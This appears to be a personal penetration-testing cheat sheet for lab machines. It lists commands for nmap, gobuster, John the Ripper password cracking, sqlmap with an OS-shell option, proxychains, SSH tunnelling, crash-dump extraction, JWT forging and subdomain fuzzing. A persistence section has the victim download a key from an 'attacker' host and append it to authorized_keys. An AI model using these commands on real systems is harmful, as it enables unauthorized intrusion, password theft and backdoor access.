 Commands for tools used 
---

## nmap

```
scan and show OS
---
nmap <addr> -sV

Don't ping (Firewall)
---
nmap <addr> -Pn

UDP
---
nmap <addr> -sU
```


## Gobuster
for enumerating website paths

```
finding dirs
---
gobuster dir -u <addr> -w /usr/share/wordlist/dirb/common.txt


searching for specific file type + dirs
---
gobuster dir -x php -u 10.129.255.70 -w /usr/share/wordlists/dirb/common.txt
```


## John the ripper

```

zip2john <file.zip> 2>/dev/null | tee <file.hash>

john <file.hash> --wordlist=/usr/share/wordlists/rockyou.txt --format=<format>

```


## sqlmap

```
sqlmap -u "<url>" --cookie="<key=values>" --os-shell --user-agent "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" 
```

## cadaver

```
For WebDAV applications
---
cadaver <website>
```

## Proxy chains

```
adding a proxy
---

edit /etc/proxychains4.conf 

examples:
http <ip> <port>
socks5 <localhost> <port> <user> <password>

$ proxychains ssh user@<ip>
```

## netcat enumeration

```
finding open ports internally
---
nc -zv 192.168.0.1 1-65535 2>&1 | grep -v "refused"
```


## tftp

allows putting/getting of files without specifying permission

check for `/etc/default/tftpd-hpa`


## SSH port forwarding

append your pub key to `/home/user/.ssh/authorized_keys`

On your attacker machine:

`ssh -L <local port>:<victim service>:<victim port> <victim>@<ip>`

OR using dynamic forwarding for attacks

`ssh -D <local port> <victim>@<ip>`

## Adding your SSH to the victim
```
Append your public to the victim's ~/.ssh/authorized_keys
---
On attacker:
ssh-keygen

On victim:
wget http://attacker/id_rsa.pub
cat id_rsa.pub >> ~/.ssh/authorized_keys
```

## Getting Crash Data

```
While program is running, kill it with
---
kill -BUS <pid>

Get the data from the crash log
---
apport-unpack /var/crash/_opt_count.1000.crash /tmp/crashed
strings /tmp/crashed/CoreDump
```

## JWT generation

```
pip install pyjwt

>>> import jwt
>>> encoded_jwt = jwt.encode({"some": "payload"}, "secret", algorithm="HS256")
```

## SUBDOMAIN ENUM

```
wfuzz -w SecLists-master/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.nunchucks.htb"  -u 'https://nunchucks.htb' --hh <word size>
```

## MySQL

run one liner mysqls
```
mysql -u <user> <db> --password=<pass> -e 'select * from users;'
```

## Searchsploit

Searches for exploits for specific versions

Can filter by date too

```
searchsploit -j <name of software> | jq .
```
